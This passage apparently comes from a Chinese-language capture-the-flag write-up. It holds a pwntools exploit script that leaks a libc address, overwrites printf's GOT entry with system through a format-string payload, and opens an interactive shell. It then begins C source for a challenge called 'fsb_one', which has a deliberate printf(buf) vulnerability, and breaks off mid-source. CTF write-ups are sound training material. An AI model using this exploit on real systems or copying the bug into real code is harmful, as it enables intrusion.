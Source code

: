 ```

log.info("libc_start_main_ret addr: " + hex(libc_start_main_ret))

libc_base = libc_start_main_ret - 0x202e1
system_addr = libc_base + 0x3f480
printf_addr = libc_base + 0x4f190
print hex(system_addr)
print hex(printf_addr)

pause()

pattern = "%{}c%{}$hn"

n = 6 + 4
system_low = system_addr & 0xffff
system_high = (system_addr >> 16) & 0xffff
print hex(system_addr)
print hex(system_low)
print hex(system_high)
payload = ""
payload += pattern.format(system_low , n)
payload += pattern.format(s_sub(system_high ,system_low) , n+1)
payload = payload.ljust(32 , "A")

payload += p64(elf.got["printf"])
payload += p64(elf.got["printf"] + 2)

pause()

p.sendline(payload)

p.sendline("/bin/sh\x00")

p.interactive()
```

### fsb_one

[参考文章](http://www.cnblogs.com/Ox9A82/p/5559167.html)

贴上源码：
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <signal.h>

void echo() {
    char buf[0x200];
    memset(buf, 0, sizeof(buf));

    fgets(buf, sizeof(buf), stdin);
    printf(buf);
    puts("\nain't it cool, bye now");
}

void timeout() {
    puts("Time is up");
    exit(1);
}

void welcome() {
```